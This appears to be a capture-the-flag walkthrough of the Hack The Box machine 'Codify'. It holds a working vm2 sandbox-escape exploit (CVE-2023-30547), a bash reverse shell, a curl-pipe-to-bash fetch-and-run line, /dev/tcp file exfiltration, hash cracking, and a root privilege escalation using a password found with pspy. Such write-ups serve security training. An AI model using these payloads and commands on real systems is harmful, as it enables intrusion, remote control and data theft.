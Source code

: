 
```
nmap -sC -sV {victim ip}
```

I see ports 22, 80, and 3000 are open. When I visit port 80 I find the domain `codify.htb` and add the domain to the hosts file.

```
echo '10.10.11.239 codify.htb' | sudo tee -a /etc/hosts
```
In the directory `/editor` there is a code editor which allows us to test NodeJS code

The code editor uses the open source library `vm2`, there is a vulnerability CVE-2023-30547, where attackers can raise a host exception that is not properly sanitized in handleException() function. By doing so, the attacker can escape the sandbox environment and execute arbitrary code on the host.

If we run the following code in the editor:

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```
This executes the command `id`, which outputs:

```
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```
I prepared a `rev.sh`, a reverse shell to initiate a callback to our local machine.

```
  echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<YOUR_IP>/4444 0>&1' > rev.sh
```
I run a web server to host the script:

```
python3 -m http.server 8081
```
And start a netcat listener:

```
nc -lnvp 4444
```

We edit the last line of the code on the web app to call the reverse shell.
```
c.constructor('return process')().mainModule.require('child_process').execSync('curl
http://10.10.14.99:8081/rev.sh|bash');
```
This gets us a shell on netcat, to get a better shell I ran `script /dev/null -c bash`.

Searching thru the web directories I found a SQLite database file in `var/www/contacts` directory. I transferred this file to my local box for more analysis.

On my local I ran, to listen:

```
nc -lnvp 2222 > tickets.db
```

Then sending the file to my local:

```
   cat tickets.db > /dev/tcp/10.10.14.99/2222
```

On my local I ran sqlite3 to analyze the file:

```
$ sqlite3 tickets.db

$ select * from users;
```
We get the user `joshua` and a hash, which I ran against hashcat to get the password `spongebob1`.

```
  hashcat --force -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```

We can now ssh into `joshua` with those credentials. I found a user flag at `/home/joshua/user.txt`.

To find what files we can run as root I ran `sudo -l`, and joshua can run the file `/opt/scripts/mysql-backup.sh`. To get more analysis I ran the snooping tool `pspy64s`.

I downloaded the file locally and ran a web server in that directory:

```
$ wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64s
$   python3 -m http.server 8082
```
From the victim's box I used `wget`:

```
$ wget http://10.10.14.99:8082/pspy64s
$ chmod +x pspy64s
$ ./pspy64s
```
From another shell on our victim's box, we run the file we found from running `sudo -l`:

```
sudo /opt/scripts/mysql-backup.sh
```
After watching `pspy64s` run after we executed the file I found the root password `kljh12k3jhaskjh12kjh3`.

I login and get the root flag:

```
$ su root
$ cat /root/root.txt
```













